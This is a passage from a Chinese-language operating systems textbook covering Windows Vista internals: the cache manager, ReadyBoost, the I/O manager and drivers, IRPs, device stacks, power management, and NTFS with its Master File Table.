内存管理器必须决定系统线程把页面从已修改链表移动到后备链表的积极程度。有干净的页面后备总比有脏页后备好得多（因为如有需要，干净的页可以立即重用），但是一个积极的净化策略意味着更多的磁盘I/O，同时一个刚刚净化的页面可能由于缺页中断重新回到工作集中，然后又成为脏页。通常来讲，Windows通过算法、启发、猜测、历史、经验以及管理员可控参数的配置来做权衡。
总而言之，内存管理需要一个拥有多种数据结构、算法和启发性的十分复杂、重要的构件。它尽可能地自我调整，但是仍然留有很多选项使系统管理员可以通过配置这些选项来影响系统性能。大部分的选项和计数器可以通过工具浏览，相关的各种工具包在前面都有提到。也许在这里最值得记住的就是，在真实的系统里，内存管理不仅仅是一个简单的时钟或老化的页面算法。
Windows高速缓存（cache）通过把最近和经常使用的文件片段保存在内存中的方式来提升文件系统的性能。高速缓存管理器管理的是虚拟寻址的数据块，也就是文件片段，而不是物理寻址的磁盘块。这种方法非常适合NTFS文件系统，如11.8节所示。NTFS把所有的数据作为文件来存储，包括文件系统的元数据。高速缓存的文件片段称为视图（view），这是因为它们代表了被映射到文件系统的文件上的内核虚拟地址片段。所以，在高速缓存中，对物理内存的管理实际上是由内存管理器提供的。高速缓存管理器的作用是为视图管理内核虚拟地址的使用，命令内存管理器在物理内存中钉住页面，以及为文件系统提供接口。
Windows高速缓存管理器工具在文件系统中被广泛地共享。这是因为高速缓存是根据独立的文件来虚拟寻址的，高速缓存管理器可以在文件的基础上很轻易地实现预读取。访问高速缓存数据的请求来自于每个文件系统。由于文件系统不需要先把文件的偏移转换成物理磁盘号然后再请求读取高速缓存的文件页，所以虚拟缓存非常方便。类似的转换发生在内存管理器调用文件系统访问存储在磁盘上的页面的时候。
除了对内核虚拟地址和用来缓存的物理内存资源的管理外，考虑到视图的一致性，大批量磁盘回写，以及文件结束标志的正确维护（特别是当文件扩展的时候），高速缓存管理器还必须与文件系统协作。在文件系统、高速缓存管理器和内存管理器之间管理文件最困难的方面在于文件中最后一个字节的偏移，即有效数据长度。如果一个程序写出了文件末尾，则越过的磁盘块都需要清零，同时为了安全的原因，在文件的元数据中记录的有效数据长度不应该允许访问未经初始化的磁盘块，所以全零磁盘块在文件元数据更新为新的长度之前必须写回到磁盘上。然而，可以预见的是，如果系统崩溃，一些文件的数据块可能还没有按照内存中的数据进行更新，还有一些数据块可能含有属于其他文件的数据，这都是不能接受的。
现在让我们来看看高速缓存管理器是如何工作的。当一个文件被引用时，高速缓存管理器映射一块大小为256KB的内核虚拟地址空间给文件。如果文件大于256KB，那么每次只有一部分文件被映射进来。如果高速缓存管理器耗尽了虚拟地址空间中大小为256KB的块，那么，它在映射一个新文件之前必须释放一个旧的文件。文件一旦被映射，高速缓存管理器通过把内核虚拟地址空间复制到用户缓冲区的方式来满足对该数据块的请求。如果要复制的数据块不在物理内存当中，会发生缺页中断，内存管理器会按照通常的方式处理该中断。高速缓存管理器甚至不知道一个数据块是不是在内存当中。复制总是成功的。
除了在内核和用户缓冲区之间复制的页面，高速缓存管理器也为映射到虚拟内存的页面和依靠指针访问的页面服务。当一个线程访问某一映射到文件中的虚拟地址但发生缺页的时候，内存管理器在大多数情况下能够使用软中断处理这种访问。如果该页面已经被高速缓存管理器映射到内存当中，即该页面已经在物理内存当中，那么就不需要去访问磁盘了。
高速缓存不一定适合所有的应用程序。大型企业应用程序，如SQL，希望自己来管理高速缓存和I/O。Windows允许文件绕开高速缓存管理器，以未缓冲I/O的方式打开。从历史上看，这类应用程序使用一个可增长的用户态虚拟地址空间来替代操作系统提供的高速缓存，因此，系统应支持一种配置，使得重新启动后能给应用程序提供其所需的3GB的用户态地址空间，而只使用1GB的地址空间用于内核态来代替2-GB/2-GB的传统分割。这种运行模式（启动选项启用后，称为3GB模式）在一些允许以多种粒度来调整用户/内核地址空间分割的操作系统上不太灵活。当Windows运行在3GB模式下时，只有一半数量的内核虚拟地址可用。高速缓存管理器通过映射更少的文件来进行调整，这正是SQL所喜欢的。
Windows Vista在系统中引入了一种全新的、有别于高速缓存管理器的缓存技术，称为ReadyBoost。用户可以在USB接口或其他端口插入闪存，并命令操作系统使用闪存作为一个通写缓存。闪存引入了一种新的存储层次，这对于增加磁盘读缓存的数量特别有用。虽然比不上作为普通内存的动态RAM（DRAM），但是从闪存读取数据还是相当快的。结合高速的DRAM和相对廉价的闪存，Vista系统以少量的DRAM，使得不必开启机箱就可以获得更高的性能。
ReadyBoost压缩数据（通常为2倍），并加密。ReadyBoost使用一个过滤驱动程序来处理文件系统发送到卷管理器的I/O请求。名为ReadyBoot的类似技术，通过使用闪存缓存数据来加速Windows Vista系统的启动时间。但是这些技术对拥有1GB或更多内存的系统影响较小。在只有512MB内存的系统上尝试运行Windows Vista才是它们真正有帮助的地方。内存容量将近1GB的系统拥有足够的内存，页面请求非常罕见,使得磁盘I/O能够满足大多数使用场景。
通写方式对闪存被拔除时减少数据丢失很重要，但未来的PC硬件可能在主板上直接集成闪存。这样，闪存不用通写方式也可以使用，从而缓存系统故障时也需要继续存在的关键数据，而无需旋转磁盘。这不仅带来了性能的提升，而且还可以降低能耗（从而提高笔记本电脑的电池寿命），因为磁盘旋转少了。现在一些笔记本电脑一直在致力于使用大量的闪存来代替机电磁盘。
Windows I/O管理器提供了灵活的、可扩展的基础框架，以便有效地管理非常广泛的I/O设备和服务，支持自动的设备识别和驱动程序安装（即插即用）及用于设备和CPU的电源管理——以上均基于异步结构使得计算可以与I/O传输重叠。大约有数以十万计的设备在Windows Vista上工作。一大批常用设备甚至不需要安装驱动程序，因为Windows操作系统已附带其驱动程序。但即使如此，考虑到所有的版本，也有将近100万种不同的驱动程序在Windows Vista上运行。以下各节中，我们将探讨一些I/O相关的问题。
I/O管理器与即插即用管理器紧密联系。即插即用背后的基本思想是一条可枚举总线。许多总线的设计，包括PC卡、PCI、PCI-x、AGP、USB、IEEE 1394、EIDE和SATA，都支持即插即用管理器向每个插槽发送请求，并要求每个插槽上的设备表明身份。即插即用管理器发现设备的存在以后，就为其分配硬件资源，如中断等级，找到适当的驱动程序，并加载到内存中。每个驱动程序加载时，就为其创建一个驱动程序对象（driver object）。每个设备至少分配一个设备对象。对于一些总线，如SCSI，枚举只发生在启动时间，但对于其他总线，如USB，枚举可以在任何时间发生，这就需要即插即用管理器，总线驱动程序（确实在枚举的总线），和I/O管理器之间的密切协作。
在Windows中，所有与硬件无关的程序，如文件系统、反病毒过滤器、卷管理器、网络协议栈，甚至内核服务，都是用I/O驱动程序来实现的。系统配置必须设置成能够加载这些驱动程序，因为在总线上不存在可枚举相关的设备。其他如文件系统，在需要时由特殊代码加载，例如文件系统识别器查看裸卷，以及辨别文件系统格式的时侯。
Windows的一个有趣的特点是支持动态磁盘（dynamic disk）。这些磁盘可以跨越多个分区，或多个磁盘，甚至无需重新启动在使用中就可以重新配置。通过这种方式，逻辑卷不再被限制在一个单一的分区或磁盘内，一个单一的文件系统也可以透明地跨越多个驱动器。
从I/O到卷可被一个特殊的Windows驱动程序过滤产生卷阴影副本（Volume Shadow Copies）。过滤驱动程序创建一个可单独挂载的，并代表某一特定时间点的卷快照。为此，它会跟踪快照点后的变化。这对恢复被意外删除的文件或根据定期生成的卷快照查看文件过去的状态非常方便。
阴影副本对精确备份服务器系统也很有价值。在该系统上运行服务器应用程序，它们可以在合适的时机制作一个干净的持久备份。一旦所有的应用程序准备就绪，系统初始化卷快照，然后通知应用程序继续执行。备份由卷快照组成。这与备份期间不得不脱机相比，应用程序只是被阻塞了很短的时间。
应用程序参与快照过程，因此一旦发生故障，备份反映的是一个非常易于恢复的状态。否则，就算备份仍然有用，但抓取的状态将更像是系统崩溃时的状态。而从崩溃点恢复系统更加困难，甚至是不可能的，因为崩溃可能在应用程序执行过程的任意时刻发生。墨菲定律说，故障最有可能在最坏的时候发生，也就是说，故障可能在应用程序的数据正处于不可恢复的状态时发生。
另一方面，Windows支持异步I/O。一个线程启动一个I/O操作，然后与该I/O操作并行执行。这项功能对服务器来说特别重要。有各种不同的方法使线程可以发现该I/O操作是否已经完成。一是启动I/O操作的同时指定一个事件对象，然后等待它结束。另一种方法是指定一个队列，当I/O操作完成时，系统将一个完成事件插入到队列中。三是提供一个回调函数，I/O操作完成时供系统调用。四是在内存中开辟一块区域，当I/O操作完成时由I/O管理器更新该区域。
我们要讨论的最后一个方面，是由Windows Vista提出的I/O优先级。I/O优先级是由发起I/O操作的线程来确定的，或者也可以明确指定。共有5个优先级别，分别是：关键、高、正常、低、非常低。关键级别为内存管理器预留，以避免系统经历极端内存压力时出现死锁现象。低和非常低的优先级为后台进程所使用，例如磁盘碎片整理服务、间谍软件扫描器和桌面搜索，以免干扰正常操作。大部分I/O操作的优先级是正常级别，但是为避免小故障，多媒体应用程序也可标记它们的I/O优先级为高。多媒体应用可有选择地使用带宽预留模式获得带宽保证以访问时间敏感的文件，如音乐或视频。I/O系统将给应用程序提供最优的传输大小和显式I/O操作的数目，从而维持应用程序向I/O系统请求的带宽保证。
由I/O管理器提供的API与大多数操作系统提供的API并没有很大的不同。基本操作有open、read、write、ioctl和close，以及即插即用和电源操作、参数设置、刷新系统缓冲区等。在Win32层，这些API被包装成接口，向特定的设备提供了更高一级的操作。在底层，这些API打开设备，并执行这些基本类型的操作。即使是对一些元数据的操作，如重命名文件，也没有用专门的系统调用来实现。它们只是特殊的ioctl操作。在我们解释了I/O设备栈和I/O管理器使用的I/O请求包（IRP）之后，读者将对上面的陈述更有体会。
保持了Windows一贯的通用哲学，原生NT I/O系统调用带有很多参数并包括很多变种。图11-37列出了I/O管理器中主要的系统调用接口。NtCreateFile用于打开已经存在的或者新的文件。它为新创建的文件提供了安全描述符和一个对被请求的访问权限的详细描述，并使得新文件的创建者拥有了一些如何分配磁盘块的控制权。NtReadFile和NtWriteFile需要文件句柄、缓冲区和长度等参数。它们也需要一个明确的文件偏移量的参数，并且允许指定一个用于访问文件锁定区域字节的钥匙。正如上面提到的，大部分的参数都和指定哪一个函数来报告（很可能是异步）I/O操作的完成有关。
NtQuerydirectoryFile是一个在执行过程中访问或修改指定类型对象信息的标准模式的一个例子，在这种模式中存在多种不同的查询API。在本例中，指定类型的对象是指与某些目录相关的一些文件对象。一个参数用于指定请求什么类型的信息，比如目录中的文件名列表，或者是经过扩展的目录列表所需要的每个文件的详细信息。由于它实际上是一个I/O操作，因此它支持所有的报告I/O操作已完成的标准方法。NtQueryVolumeInformationFile很像是目录查询操作，但是与目录查询操作不同的是，它有一个参数是打开的卷的文件句柄，不管这个卷上是否有文件系统。与目录不同的是，卷上有一些参数可以修改，因此这里有了单独用于卷的API NtSetVolumeInformationFile。
NtNotifyChangeDirectoryFile是一个有趣的NT范式的例子。线程可以通过I/O操作来确定对象是否发生了改变（对象主要是文件系统的目录，就像在此例中；也可能是注册表键）。因为I/O操作是异步的，所以线程在调用I/O操作后会立即返回并继续执行，并且只有在修改对象之后线程才会得到通知。未处理的请求作为一个外部的I/O操作，使用一个I/O请求包（IRP）被加入到文件系统的队列中等待。如果想从系统移除一个文件系统卷，给执行过未处理I/O操作的线程的通知就会出问题，因为那些I/O操作正在等待。因此，Windows提供了取消未处理I/O操作的功能，其中包括支持文件系统强行卸载有未处理I/O操作的卷的功能。
NtQueryInformationFile是一个用于查询目录中指定文件的信息的系统调用。还有一个与它相对应的系统调用：NtSetInformationFile。这些接口用于访问和修改文件的各种相关信息，如文件名，类似于加密、压缩、稀疏等文件特征，其他文件属性和详细资料，包括查询内部文件ID或给文件分配一个唯一的二进制名称（对象ID）。
这些系统调用本质上是特定于文件的ioctl的一种形式。这组操作可以用来重命名或删除一个文件。但是请注意，它们处理的并不是文件名，所以要重命名或删除一个文件之前必须先打开这个文件。它们也可以被用来重新命名NTFS上的交换数据流（见11.8节）。
存在独立的API（NtLockFile和NtUnlockFile）用来设置和删除文件中字节域的锁。通过使用共享模式，NtCreateFile允许访问被限制的整个文件。另一种是这些锁API，它们用来强制访问文件中受限制的字节域。读操作和写操作必须提供一个与提供给NtLockFile的钥匙相符合的密钥，以便操作被锁定的区域。
UNIX中也有类似的功能，但在UNIX中应用程序可以自由决定是否认同这个区域锁。NtFsControlFile和前面提到的查询和设置操作很相像，但它是一个旨在处理特定文件的操作，其他的API并不适合处理这种文件。例如，有些操作只针对特定的文件系统。
最后，还有一些其他的系统调用，比如NtFlushBuffersFile。像UNIX的sync系统调用一样，它强制把文件系统数据写回到磁盘。NtCancelIoFile用于取消对一个特定文件的外部I/O请求，NtDeviceIoControlFile实现了对设备的ioctl操作。它的操作清单实际上比ioctl更长。有一些系统调用用于按文件名删除文件，并查询特定文件的属性——但这些操作只是由上面列出的其他I/O管理器操作包装而成的。在这里，我们虽然列出，但并不是真的要把它们实现成独立的系统调用。还有一些用于处理I/O完成端口的系统调用，Windows的队列功能帮助多线程服务器提高使用异步I/O操作的效率，主要通过按需准备线程并降低在专用线程上服务I/O所需要的上下文切换数目来实现。
Windows I/O系统由即插即用服务、电源管理器、I/O管理器和设备驱动模型组成。即插即用服务检测硬件配置上的改变并且为每个设备创建或拆卸设备栈，也会引起设备驱动程序的装载和卸载。功耗管理器会调节I/O设备的功耗状态，以在设备不用的时候降低系统功耗。I/O管理器为管理I/O内核对象以及如IoCallDrivers和loCompleteRequest等基于IRP的操作提供支持。但是，支持Windows I/O所需要的大部分工作都由设备驱动程序本身实现。
1.设备驱动程序
为了确保设备驱动程序能和Windows Vista的其余部分协同工作，微软公司定义了设备驱动程序需要符合的WDM（Windows驱动程序模型）。WDM被设计成能在Windows 98系统上运行，也能在从Windows 2000开始的基于NT的系统上运行。WDM允许开发人员编写与两类系统都兼容的驱动程序。微软公司还提供了一个用于帮助驱动程序开发人员编写符合模型的驱动程序的开发工具箱（Windows驱动程序开发工具箱）。大部分Windows驱动程序的开发过程都是先复制一份合适的简单的驱动程序，然后修改它。
微软公司也提供一个驱动程序验证器，用以验证驱动程序的多个行为以确保驱动程序符合Windows驱动程序模型的结构要求和I/O请求的协议要求、内存管理等。操作系统中带有此验证器，管理员可能通过运行verifier.exe来控制驱动程序验证器，验证器允许管理员配置要验证哪些驱动程序以及在怎样的范围（多少资源）内验证这些驱动程序。
即使有所有的驱动程序开发和验证支持，在Windows中写一个简单的驱动程序仍然是非常困难的事情，因此微软建立了一个叫做WDF（Windows驱动程序基础）的包装系统，它运行在WDM顶层，简化了很多更普通的需求，主要和驱动程序与电源管理和即插即用操作之间的正确交互有关。
为了进一步简化编写驱动程序，也为了提高了系统的健壮性，WDF包含UMDF（用户模式驱动程序架构），使用UMDF编写的驱动程序作为在进程中执行的服务。还有KMDF（内核模式驱动程序架构），使用KMDF编写的驱动程序作为在内核中执行的服务，但是也使得WDM中的很多细节变得不可预料。由于底层是WDM，并且WDM提供了驱动程序模型，因此，本节将主要关注WDM。
在Windows中，设备是由设备对象描述的。设备对象也用于描述硬件（例如总线），软件抽象（例如文件系统、网络协议），还可以描述内核扩展（例如病毒过滤器驱动程序）。上面提到的这些设备对象都是由Windows中的设备栈来组织的，见前面的图11-16。
I/O操作从I/O管理器调用可执行API IoCallDriver程序开始，IoCallDriver带有指向顶层设备对象和描述I/O请求的IRP的指针。这个例程可以找到与设备对象联合在一起的驱动程序。在IRP中指定操作类型通常都符合前面讲过的I/O管理器系统调用，例如创建、读取和关闭。
图11-38表示的是一个设备栈在单独一层上的关系。驱动程序必须为每个操作指定一个进入点。IoCallDriver从IRP中获取操作类型，利用在当前级别的设备栈中的设备对象来查找指定的驱动程序对象，并且根据操作类型索引到驱动程序分派表去查找相应驱动程序的进入点。最后会把设备对象和IRP传递给驱动程序并调用它。
一旦驱动程序完成处理IRP描述的请求后，它将有三种选择。第一，驱动程序可以再一次调用IoCallDriver，把IRP和设备栈中的下一个设备对象传递给相应的驱动程序。第二，驱动程序也可以声明I/O请求已经完成并返回到调用者。第三，驱动程序还可以在内部对IRP排队并返回到调用者，同时声明I/O请求仍未处理。后一种情况下，如果栈上的所有驱动都认可挂起行为且返回各自的调用者，则会引起一次异步I/O操作。
2.I/O请求包
图11-39表示的是IRP中的主要的域。IRP的底部是一个动态大小的数组，包含那些被设备栈管理请求的域，每个驱动程序都可以使用这些域。在完成一次I/O请求的时候，这些设备栈的域也允许驱动程序指定要调用哪个例程。在完成请求的过程中，按倒序访问设备栈的每一级，并且依次调用由每个应用程序指定的完成例程。在每一级，驱动程序可以继续执行以完成请求，也可以因为还有更多的工作要做从而决定让请求处于未处理状态并且暂停I/O的完成。
当I/O管理器分配一个IRP时，为了分派一个足够大的IRP，它必须知道这个设备栈的深度。在建立设备栈的时候，I/O管理器会在每一个设备对象的域中记录栈的深度。注意，在任何栈中都没有正式地定义下一个设备对象是什么。这个信息被保存在栈中当前驱动程序的私有数据结构中。事实上这个栈实际上并不一定是一个真正的栈。在每一层栈中，驱动程序都可以自由地分配新的IRP，或者继续使用原来的IRP，或者发送一个I/O操作给另一个设备栈，或者甚至转换到一个系统工作线程中继续执行。
IRP包含标志位、索引到驱动程序分派表的操作码、指向内核与用户缓冲区的指针和一个MDL（内存描述符列表）列表。MDL用于描述由缓冲区描述的物理内存框，也就是用于DMA操作。有一些域用于取消和完成操作。当I/O操作已经完成后，在处理IRP时用于排列这个IRP到设备中的域会被重用。目的是给用于在原始线程的上下文中调用I/O管理器的完成例程的APC控制对象提供内存。还有一个连接域用于连接所有的外部IRP到初始化它们的线程。
3.设备栈（Device Stack）
Windows Vista中的驱动程序可以自己完成所有的任务，如图11-40所示的打印机驱动程序。另一方面，驱动程序也可以堆叠起来，即一个请求可以在一组驱动程序之间传递，每个驱动程序完成一部分工作。图11-40也给出了两个堆叠的驱动程序。
堆叠驱动程序的一个常见用途是将总线管理与控制设备的功能性工作分离。因为要考虑多种模式和总线事务，PCI总线上的总线管理相当复杂。通过将这部分工作与特定于设备的部分分离，驱动程序开发人员就可以从学习如何控制总线中解脱出来了。他们只要在驱动栈中使用标准总线驱动程序就可以了。类似地，USB和SCSI驱动程序都有一个特定于设备的部分和一个通用部分。Windows为其中的通用部分提供了公共的驱动程序。
堆叠设备驱动程序的另一个用途是将过滤器驱动程序（filter driver）插入到驱动栈中。我们已经讨论过文件系统过滤器驱动程序的使用了，该驱动程序插入到文件系统之上。过滤器驱动程序也用于管理物理硬件。在IRP沿着设备栈（Device Stack）向下传递的过程中，以及在完成操作（completion operation）中IRP沿着设备栈中各个设备驱动程序指定的完成例程（completion routine）向上传递的过程中，过滤器驱动程序会对所要进行的操作进行变换。例如，一个过滤器驱动程序能够在将数据存放到磁盘上时对数据进行压缩，或者在网络传输前对数据进行加密。将过滤器放在这里意味着应用程序和真正的设备驱动程序都不必知道过滤器的存在，而过滤器会自动对进出设备的数据进行处理。
内核态设备驱动程序是影响Windows的可靠性和稳定性的严重问题。Windows中大多数内核崩溃都是由设备驱动程序出错造成的。因为内核态设备驱动程序与内核及执行层使用相同的地址空间，驱动程序中的错误可能破坏内核数据结构，甚至更糟。其中的有些错误之所以产生，部分原因是为Windows编写的设备驱动程序的数量极其庞大，部分原因是设备驱动程序由缺乏经验的开发者编写。当然，为了编写一个正确的驱动程序而涉及的大量设备细节也是造成驱动程序错误的原因。
I/O模型是强大而且灵活的，但是几乎所有的I/O都是异步的，因此系统中会大量存在竞态条件（race condition）。从Win9x系统到基于NT技术的Windows系统，Windows 2000首次增加了即插即用(的功能）和电源管理设施。这对要正确地操纵在处理I/O包过程中涉及的驱动器的驱动程序提出了很多要求。PC机用户常常插上/拔掉设备，把笔记本电脑合上盖子装入公文包，而通常不考虑设备上那个小绿灯是否仍然亮着（表示设备正在与系统交互）。编写在这样的环境下能够正确运行的设备驱动程序是非常具有挑战性的，这也是开发WDF（Windows Driver Foundation）以简化Windows驱动模型的原因。
电源管理器集中管理整个系统的电源使用。早期的电源管理包括关闭显示器和停止磁盘旋转以降低电源消耗。但是，我们需要延长笔记本电脑在电池供电情况下的使用时间。我们还会涉及长时间无人看管运行的桌面计算机的电源节约，以及节省为现今存在的巨大的服务器群提供能源的昂贵花费（像微软、Google这样的公司将服务器群建在水电站附近以降低费用）。当我们面临以上问题时，情况迅速变得复杂起来。
更新一些的电源管理设施可以在系统没有被使用的时候，通过切换设备到后备状态甚至通过使用软电源开关（soft power switch）将设备完全关闭来降低部件功耗。在多处理器中，可以通过关闭不需要的CPU和降低正在运行的CPU的频率来减少功耗。当一个处理器空闲的时候，由于除了等待中断发生之外，该处理器不需要做任何事情，它的功耗也相应减少了。
Windows支持一种特殊的关机模式——休眠，该模式将物理内存复制到磁盘，然后把电力消耗降低到很低的水平（笔记本电脑在休眠状态下可以运行几个星期），电池的消耗也变得十分缓慢。因为所有的内存状态都被写入磁盘，我们甚至可以在笔记本电脑休眠的时候为其更换电池。从休眠状态重新启动时，系统恢复已保存的内存状态并重新初始化设备。这样计算机就恢复到休眠之前的状态，而不需要重新登录，也不必重新启动所有休眠前正在运行的应用程序和服务。尽管Windows设法优化这个过程（包括忽略在磁盘中已备份而在内存中未被修改的页面及压缩其他内存页面以减少对I/O操作的需求），对于一个有几个GB内存的笔记本电脑或桌面机来说，仍然需要花费数秒钟的时间来进入休眠状态。
另一种可选择的模式是待机模式，电源管理器将整个系统降到最低的功率状态，仅使用足够RAM刷新的功率。因为不需要将内存复制到磁盘，进入待机状态比进入休眠状态的速度更快。但是待机状态不像休眠状态那么可靠。因为如果在待机状态遇到桌面机掉电，笔记本电脑更换电池，或者由于驱动程序故障使得设备切换到低功耗状态后无法重新初始化等情况，系统将无法恢复到待机前的状态。在开发Windows Vista的过程中，微软和很多硬件设备厂商合作，花费了极大的努力改进待机模式的操作。他们也终止了允许应用软件禁止系统进入待机模式这一习惯（有时疏忽的用户没有等到指示灯熄灭就把笔记本电脑放进公文包，从而导致笔记本电脑过热）。
有很多关于WDM（Windows Driver Model）和WDF（Windows Driver Foundation）的有用的书（Cant，2005；Oney，2002；Orwick＆Smith，2007；Viscarola等人，2007）。
Windows Vista支持若干种文件系统，其中最重要的是FAT-16、FAT-32和NTFS（NT文件系统）。FAT-16是MS-DOS文件系统，它使用16位磁盘地址，这就限制了它使用的磁盘分区不能大于2GB。现在，这种文件系统基本上仅用来访问软盘。FAT-32使用32位磁盘地址，最大支持2TB的磁盘分区。FAT32没有任何安全措施，现在我们只在可移动介质（如闪存）中使用它。NTFS是一个专门为Windows NT开发的文件系统。从Windows XP开始，计算机厂商把它作为默认安装的文件系统，这极大地提升了Windows的安全性和功能。NTFS使用64位磁盘地址并且（理论上）能够支持最大264 字节的磁盘分区，尽管还有其他因素会限制磁盘分区大小。
因为NTFS文件系统是一个带有很多有趣的特性和创新设计的现代文件系统，在本章中我们将针对NTFS文件系统进行讨论。NTFS是一个大而且复杂的文件系统；由于篇幅所限，我们不能讨论其所有的特性，但是接下来的内容会使读者对它印象深刻。
NTFS限制每个独立的文件名最多由255个字符组成；全路径名最多有32 767个字符。文件名采用Unicode编码，允许非拉丁语系国家的用户（如希腊、日本、印度、俄罗斯和以色列）用他们的母语为文件命名。例如，φτλε就是一个完全合法的文件名。NTFS完全支持区分大小写的文件名（所以foo与Foo和FOO是不同的）。Win32 API不完全支持区分大小写的文件名，并且根本不支持区分大小写的目录名。为了保持与UNIX系统的兼容，当运行POSIX子系统时，Windows提供区分大小写的支持。Win32不区分大小写，但是它保持大小写状态，所以文件名可以包含大写字母和小写字母。尽管区分大小写是一个UNIX用户非常熟悉的特性，但是对一般用户而言，这是很不方便的。例如，现在的互联网在很大程度上是不区分大小写的。
与FAT32和UNIX文件不同，NTFS文件并不只是字节的一个线性序列，而是一个文件由很多属性组成，每个属性由一个字节流表示。大部分文件都包含一些短字节流（如文件名和64位的对象ID），和一个包含数据的未命名的长字节流。当然，一个文件也可以有两个或多个数据流（即长字节流）。每个流有一个由文件名、一个冒号和一个流名组成的名字，例如，foo:stream1。每个流有自己的大小，并且相对于所有其他的流都是可以独立锁定的。一个文件中存在多个流的想法在NTFS中并不新鲜。苹果Macintosh的文件系统为每个文件使用两个流，一个数据分支（data fork）和一个资源分支（resource fork）。NTFS中多数据流的首次使用是为了允许一个NT文件服务器为Macintosh用户提供服务。多数据流也用于表示文件的元数据，例如Windows GUI中使用的JPEG图像的缩略图。但是，多数据流很脆弱，并且在传输文件到其他文件系统，通过网络传输文件甚至在文件备份和后来恢复的过程中都会丢失文件。这是因为很多工具都忽略了它们。
与UNIX文件系统类似，NTFS是一个层次化的文件系统。名字的各部分之间用“\”分隔，而不是“/”，这是从MS-DOS时代与CP/M相兼容的需求中继承下来的。与UNIX中当前工作目录的概念不同的是，作为文件系统设计的一个基础部分的链接到当前目录（.）和父目录（..）的硬连接，在Windows是作为一种惯例来是实现的。系统仅在其中的POSIX子系统里支持硬连接，正因为这样，NTFS支持对目录的遍历检查（UNIX中的“x”权限）。
从Windows Vista开始，NTFS才开始支持符号链接。为了避免如Spoofing这样的安全问题（当年在UNIX 4.2BSD第一次引入符号链接时就遇到过），通常只允许系统管理员来创建符号链接。在Vista中符号链接的实现用到一个叫再解析点（reparse points）的NTFS特性（将在本节后续部分讨论）。另外，NTFS也支持压缩、加密、容错、日志和稀疏文件。我们马上就会探讨这些特性及其实现。
NTFS文件系统是专门为NT系统开发的，用来替代OS/2中的HPFS文件系统的。它是一个具有很高复杂性和精密性的文件系统。NT系统的大部分是在陆地上设计的。从这方面看，NTFS与NT系统其他部分相比是独一无二的，因为它的很多最初设计都是在一艘驶出普吉特湾的帆船的甲板上完成的（严格遵守上午工作，下午喝啤酒的作息协议）。
接下来，我们将从NTFS结构开始，探讨一系列NTFS特性，包括文件名查找、文件压缩、日志和加密。
1.文件系统结构
每个NTFS卷（如磁盘分区）都包含文件、目录、位图和其他数据结构。每个卷被组织成磁盘块的一个线形序列（在微软的术语中叫“簇”），每个卷中块的大小是固定的。根据卷的大小不同，块的大小从512字节到64KB不等。大多数NTFS磁盘使用4KB的块，作为有利于高效传输的大块和有利于减少内部碎片的小块之间的折中办法。每个块用其相对于卷起始位置的64位偏移量来指示。
每个卷中的主要数据结构叫MFT（主文件表，Master File Table），该表是以1KB为固定大小的记录的线形序列。每个MFT记录描述一个文件或目录。它包含了如文件名、时间戳、文件中的块在磁盘上的地址的列表等文件属性。如果一个文件非常大，有时候会需要两个或更多的MFT记录来保存所有块的地址列表。这时，第一个MFT记录叫做基本记录（base record），该记录指向其他的MFT记录。这种溢出方案可以追溯到CP/M，那时每个目录项称为一个范围（extent）。用一个位图记录哪个MFT表项是空闲的。
MFT本身就是一个文件，可以被放在卷中的任何位置，这样就避免了在第一磁道上出现错误扇区引起的问题。而且MFT可以根据需要变大，最大可以有248 个记录。
图11-41是一个MFT。每个MFT记录由数据对（属性头，值）的一个序列组成。每个属性由一个说明了该属性是什么和属性值有多长的头开始。一些属性值是变长的，如文件名和数据。如果属性值足够短能够放到MFT记录中，那么就把它放到记录里。这叫做直接文件（immediate file，[Mullender and Tanenbaum，1984]）。如果属性值太长，它将被放在磁盘的其他位置，并在MFT记录里存放一个指向它的指针。这使得NTFS对于小的域（即那些能够放入MFT记录中的域）非常有效率。
最开始的16个MFT记录为NTFS元数据文件而预留，如图11-41所示。每一个记录描述了一个正常的具有属性和数据块的文件，就如同其他文件一样。这些文件中每一个都由“$”开始表明它是一个元数据文件。第一个记录描述了MFT文件本身。它说明了MFT文件的块都放在哪里以确保系统能找到MFT文件。很明显，Windows需要一个方法找到MFT文件中第一个块，以便找到其余的文件系统信息。找到MFT文件中第一个块的方法是查看启动块，那是卷被格式化为文件系统时地址所存放的位置。
记录1是MFT文件早期部分的复制。这部分信息非常重要，因此拥有第二份拷贝至关重要以防MFT的第一块坏掉。记录2是一个Log文件。当对文件系统做结构性的改变时，例如，增加一个新目录或删除一个现有目录，动作在执行前就记录在Log里，从而增加在这个动作执行时出错后（比如一次系统崩溃）被正确恢复的机会。对文件属性做的改变也会记录在这里。事实上，唯一不会记录的改变是对用户数据的改变。记录3包含了卷的信息，比如大小、卷标和版本。
上面提到，每个MFT记录包含一个（属性头，值）数据对的序列。属性在$AttrDef文件中定义。这个文件的信息在MFT记录4里。接下来是根目录，根目录本身是一个文件并且可以变为任意长度。MFT记录5用来描述根目录。
卷里的空余空间通过一个位图来跟踪。这个位图本身是一个文件，它的磁盘地址和属性由MFT记录6给出。下一个MFT记录指向引导装载程序。记录8用来把所有的坏块链接在一起来确保不会有文件使用它们。记录9包含安全信息。记录10用于大小写映射。对于拉丁字母A-Z，映射是非常明确的（至少是对说拉丁语的人来说）。对于其他语言的映射，如希腊、亚美尼亚或乔治亚，就对于讲拉丁语的人不太明确，因此这个文件告诉我们如何做。最后，记录11是一个目录包含杂项文件用于磁盘配额、对象标识符、再解析点，等等。最后四个MFT记录被留作将来使用。
每个MFT记录由一个记录头和后面跟着的（属性头，值）对组成。记录头包含一个幻数用于有效性检查，一个序列号（每次当记录被一个新文件再使用时就被更新），文件引用记数，记录实际使用的字节数，基本记录（仅用于扩展记录）的标识符（索引，序列号），和其他一些杂项。
NTFS定义了13个属性能够出现在MFT记录中。图11-42列出了这些属性。每个属性头标识了属性，给出了长度，值字段的位置，一些各种各样的标记和其他信息。通常，属性值直接跟在它们的属性头后面，但是如果一个值对于一个MFT记录太长的话，它可能被放在不同的磁盘块中。这样的属性称作非常驻属性，数据属性很明显就是这样一个属性。一些属性，像名字，可能出现重复，但是所有属性必须在MFT记录中按照固定顺序出现。常驻属性头有24个字节长；非常驻属性头会更长，因为它们包含关于在磁盘上哪些位置能找到这些属性的信息。
